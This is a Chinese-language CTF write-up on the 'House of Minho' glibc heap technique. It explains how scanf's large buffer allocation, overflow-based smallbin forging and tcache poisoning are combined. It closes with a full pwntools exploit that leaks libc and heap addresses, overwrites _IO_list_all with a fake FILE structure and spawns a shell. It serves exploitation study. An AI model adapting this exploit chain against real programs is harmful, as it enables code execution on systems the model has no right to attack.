


# 前言
`houseofminho`最早是在宁波赛上遇到的，没想到这玩意给了我迎头痛击。当时老觉得这些过于复杂的堆利用有点钻牛角尖了，实战意义不大，但是现在想想，还是得认真学这些。

这种复杂的堆利用如果一直畏难的话，那我就一直不会有长进，但是啃下来之后却也觉得还能接受了。
# 题目详情
通过出题人给的源码我们可以发现，我们至始至终最多只能操控一个堆块，并且大小只能是0x40或0x80。尽管题目在0x40的堆块读入时给了0x80的大溢出，但是我们的利用还是有很大麻烦。

有一个很重要而且有趣的点是这道题对于scanf的利用

**scanf在收到大量字节输入时会调用malloc来创建缓冲区**
**而这道题看似scanf只有一个读入数字的处理？怎么让他收到大量字节输入呢**
**答案是在原来与题目交互时输入的1,2,3前面加上很多个0，这样就会让scanf有一个malloc大量字节后再free的操作**
**以上有一个前提，就是没有setbuf(stdin,0)**

初步利用思路
1. 在smallbin内放入多个0x90大小的堆块
2. 通过scanf的大malloc来触发将smallbin放入tcachebin的机制，从而利用溢出改fd指针获得任意地址写

那么下一步就是如何获得smallbin了
1. 首先smallbin只需要有一个，剩下我们可以通过bk指针在可控的堆上通过布局伪造，即使显示被corrupted，但是将它们放入tcachebin的过程是沿着bk进行且没有检查，所以这样是可以的

2. 那么smallbin从哪里来呢，答案是从unsortedbin
3. 我们可以先将堆块size改大，放入unsortedbin，再改小size(由于unsortedbin本身就是什么size大小的堆块都有，在此处自然没有对其size的检查)
4. 通过scanf的大堆块申请之后，被我们改小size的unsortedbin就会落入smallbin

当然上述都只是相对简化的，实际这题中还有两个点
1.  1. 利用unsortedbin伪造smallbin的过程中，在改小了size的unsortedbin下方，我们还需要伪造glibc的保护块来防止出错，而这样我们的可控空间就不够大了。
   
   图中很明显，我们可控的部分是绿色堆块往下0x80的大小，以及蓝色堆块往下数0x80的大小，但是我们必须伪造0x90大小的堆块！而且在0x90大小的堆块下方还需伪造两个哨兵块来防止malloc报错
    2. 所以在这里还有一个unlink手法，将unsortedbin向上合并0x30的大小以提高伪造利用率。
    3. 在图中可以看到绿色堆块中的0x31大小的堆块就是准备用来合并的，这样我们利用0x50大小堆块的uaf范围就可以从(0x80-0x48)变成(0x80-0x18)，大大增加了伪造的可能性
2.  在程序最开始还利用scanf的大堆块写往图中最下方的橙色堆块后方写了一个\x33，也就是3的ascii码。这样的布局可以防止蓝色堆块被free成unsortedbin之后的合并检查出错，因为\x33的prev_in_use位为1，被启用。

我这里也只是简单写一下思路，这题中的很多细节我都讲的比较粗略或者不够完整。
更完整详细的解题思路可以去看看[看雪Csome的记录](https://bbs.kanxue.com/thread-279588.htm)

这是完整exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    # arch = "i386",
    log_level="info",
)
def debug(io):
    gdb.attach(io,
'''
# b *$rebase(0x121B)
b 25
'''
)
io = process("./bh")

def add_small(content):
    log.info(f'add_small {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'1')
    io.sendafter(b'Data: ',content)
def add_big(content):
    log.info(f'add_big {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'2')
    io.sendafter(b'Data: ',content)
def show():
    log.info('show')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'2')
def show2(len):
    log.info(f'show {hex(len-1)}*0 + 2')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'2')
def delete():
    log.info(f'delete')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'3')
def delete3(len):
    log.info(f'delete {hex(len-1)}*0 + 3')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'3')

debug(io)
delete3(0xd59)
add_small(b'x'*0x48 + p64(0xd11))
show2(0x1000)
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
libc_base = u64(io.recv(0x6).ljust(8,b'\x00')) - 0x219ce0
log.success(hex(libc_base))

delete()
add_small(b'x'*0x48 + p64(0xcf1))
delete()
add_big(b'x')
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
heap_base = (u64(io.recv(0x5).ljust(8,b'\x00')) - 0x1)*0x1000
log.success(hex(heap_base))
delete()
add_small(b"a" * 0x10 + p64(0) + p64(0x31) + p64(heap_base + 0x12c0) * 2 + p64(0x0) * 2 + p64(0x30) + p64(0xd00))
delete()
add_big(b"a" * 0x50 + p64(0x90) + p64(0x10) + p64(0x00) + p64(0x11))
delete()
add_small(flat({
    0x10:0,
    0x18:0x91,
    0x20:heap_base + 0x1380,
    0x28:libc_base + 0x219ce0,
},filler=b'\x00'))
show2(0xfff)
delete()

add_small(flat({
    0x10 : {
            0x00: 0,
            0x08: 0x91,
            0x10: heap_base + 0x12c0,
            0x18: heap_base + 0x12c0 + 0x30,

            0x30: 0,
            0x38: 0x91,
            0x40: heap_base + 0x12c0,
            0x48: heap_base + 0x12c0 + 0x50,
 
            0x50: 0,
            0x58: 0x91,
            0x60: heap_base + 0x12c0 + 0x30,
            0x68: libc_base + 0x219d60
        }
    }
, filler=b"\x00"))
delete()

add_big(b'x')
delete()
_IO_list_all = libc_base + 0x21a680
system = 0x50d60 + libc_base
 
fake_file = heap_base + 0x12e0
add_small(b"a"*0x10+p64(0) + p64(0x71) + p64((heap_base + 0x12d0 + 0x70)^((heap_base + 0x1000)>>12)))
delete()
add_big(flat({
    0x0+0x10: b"  sh;",
    0x28+0x10: system,
    0x68: 0x71,
    0x70: _IO_list_all ^((heap_base + 0x1000)>>12),
}, filler=b"\x00"))
delete()
add_big(flat({
    0xa0-0x60: fake_file-0x10,
    0xd0-0x60: fake_file+0x28-0x68,
    0xD8-0x60: libc_base + 0x2160C0, # jumptable
}, filler=b"\x00"))
delete()
add_big(p64(fake_file))

io.interactive()
```
